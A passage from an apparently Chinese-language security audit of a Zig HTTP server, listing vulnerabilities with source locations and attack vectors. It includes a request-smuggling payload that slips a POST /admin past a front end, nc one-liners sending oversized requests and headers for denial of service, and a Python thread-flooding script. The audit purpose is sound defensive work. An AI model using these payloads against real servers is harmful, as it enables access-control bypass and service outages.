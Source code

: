 **攻击向量**:
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 44
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: target.com
Content-Length: 10

hacked=yes
```

**影响**:
- 🟡 **请求走私**
- 🟡 **缓存投毒**
- 🟡 **访问控制绕过**

### 5. **拒绝服务攻击 (DoS)**
**位置**: `src/request.zig:65` - 缺少请求大小限制
```zig
pub fn parseFromBuffer(allocator: Allocator, buffer: []const u8) !Self {
    // 没有检查buffer大小，可导致内存耗尽
}
```

**攻击向量**:
```bash
# 超大请求攻击
python -c "print('GET /' + 'A'*10000000 + ' HTTP/1.1\r\n\r\n')" | nc target 8080

# 大量头部攻击
for i in {1..1000}; do echo "Header$i: $('A'{1..1000})"; done | nc target 8080
```

**影响**:
- 🟡 **内存耗尽**
- 🟡 **服务不可用**
- 🟡 **资源消耗攻击**

### 6. **竞态条件漏洞**
**位置**: `src/buffer.zig:70-94`
```zig
pub fn acquire(self: *BufferPool) !*Buffer {
    self.total_acquired += 1;  // 非原子操作
    // ... 竞态条件窗口
}
```

**攻击向量**:
```python
# 并发攻击脚本
import threading, requests

def attack():
    for _ in range(1000):
        requests.get("http://target/")

# 启动100个并发线程
for _ in range(100):
    threading.Thread(target=attack).start()
```

